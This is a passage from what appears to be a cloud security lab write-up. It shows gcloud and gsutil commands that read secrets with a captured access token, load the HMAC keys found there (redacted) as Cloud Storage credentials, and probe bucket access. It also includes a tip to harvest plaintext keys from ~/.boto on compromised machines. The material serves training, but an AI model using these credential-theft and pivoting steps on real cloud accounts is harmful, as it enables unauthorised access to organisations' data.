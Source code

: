 We see two secrets named `payments` and `payments-storage`. Let's check out `payments`. We get a result which seems to be [Google HMAC keys](https://cloud.google.com/storage/docs/authentication/hmackeys). An HMAC key is a type of access credential associated with a service account that allows it to authenticate and interact with Google Cloud Storage
```
└─$ gcloud secrets versions access latest --secret=payments --project=gr-proj-4 --access-token-file token.txt
<REDACTED>
<REDACTED>  
```
The `payments-storage secret` contains the name `gr-stripe` which could be a password, username, or a bucket name
```
└─$ gcloud secrets versions access latest --secret=payments-storage --project=gr-proj-4 --access-token-file token.txt
gr-stripe    
```

HMAC keys can be used with `gsutil`, a tool for interacting with Google Cloud Storage.
```
└─$ gsutil config -a
This command will configure HMAC credentials, but gsutil will use
OAuth2 credentials from the Cloud SDK by default. To make sure the
HMAC credentials are used, run: "gcloud config set
pass_credentials_to_gsutil false".

This command will create a boto config file at /home/kali/.boto
containing your credentials, based on your responses to the following
questions.
What is your google access key ID? <REDACTED>
What is your google secret access key? <REDACTED>

Boto config file "/home/kali/.boto" created. If you need to use a
proxy to access the Internet please see the instructions in that file.
                                                                      
```
> It's worth noting that HMAC keys are stored in plaintext in the `~/.boto` file, so make sure to check for it during post-exploitation on a compromised VM.
{: .prompt-info }

Running `gsutil -ls` results in an error stating that the `staging` service account doesn't have access to list buckets
```
└─$ gsutil ls
AccessDeniedException: 403 AccessDenied
<?xml version='1.0' encoding='UTF-8'?><Error><Code>AccessDenied</Code><Message>Access denied.</Message><Details>staging@gr-proj-4.iam.gserviceaccount.com does not have storage.buckets.list access to the Google Cloud project. Permission 'storage.buckets.list' denied on resource (or it may not exist).</Details></Error>

```

When we set the HMAC keys, `gsutil` mentioned: `This command will configure HMAC credentials, but gsutil will use OAuth2 credentials from the Cloud SDK by default. To make sure the HMAC credentials are used, run: gcloud config set pass_credentials_to_gsutil false`. So by default gsutil will attempt to use the credentials set using `gcloud`, which is the staging service account.
```
└─$ gcloud config set pass_credentials_to_gsutil false
Updated property [core/pass_credentials_to_gsutil].
```
After running` gcloud config set pass_credentials_to_gsutil false`, the execution context has changed to the payments service account. However, this account also doesn't have permission to list buckets. 
```
─$ gsutil ls                                         
AccessDeniedException: 403 AccessDenied
```
